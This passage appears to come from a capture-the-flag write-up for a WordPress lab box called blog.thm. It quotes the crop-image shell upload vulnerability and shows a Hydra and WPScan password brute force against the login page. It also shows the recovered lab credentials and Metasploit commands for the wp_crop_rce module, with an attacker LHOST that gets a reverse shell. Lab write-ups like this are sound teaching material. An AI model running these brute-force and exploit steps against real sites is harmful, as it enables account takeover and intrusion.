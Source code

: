 > There is a vulnerability called [WordPress Core 5.0.0 - Crop-image Shell Upload](https://www.exploit-db.com/exploits/46662)
>
> *This module exploits a path traversal and a local file inclusion vulnerability on WordPress versions 5.0.0 and <= 4.9.8.
> The crop-image function allows a user, with at least author privileges,
> to resize an image and perform a path traversal by changing the _wp_attached_file reference during the upload.
> The second part of the exploit will include this image in the current theme by changing the _wp_page_template attribute when creating a post.*

Since Karen Wheeler has author access to the blog, brute force the user `kwheel`.

Navigate to `http://blog.thm/wp-login.php` and try a password with user `kwheel`. Copy the HTTP POST request in raw format, it is necessary for the `Hydra` command.

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.54.35%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

# Third string is the test condition, F: = test for failure. String got from the HTTP response.

# WPScan
echo -e 'kwheel'> user.txt
wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U user.txt -t 75
```

![](.gitbook/assets/image-20230515121134836.png)

> 📌 `kwheeler`:`cutiepie1`

## Exploitation

Use Metasploit with module `exploit/multi/http/wp_crop_rce`

```bash
metasploit -q

setg RHOSTS blog.thm
setg RHOST blog.thm
use exploit/multi/http/wp_crop_rce
set LHOST 10.18.65.48
set USERNAME kwheel
set PASSWORD cutiepie1
run
```
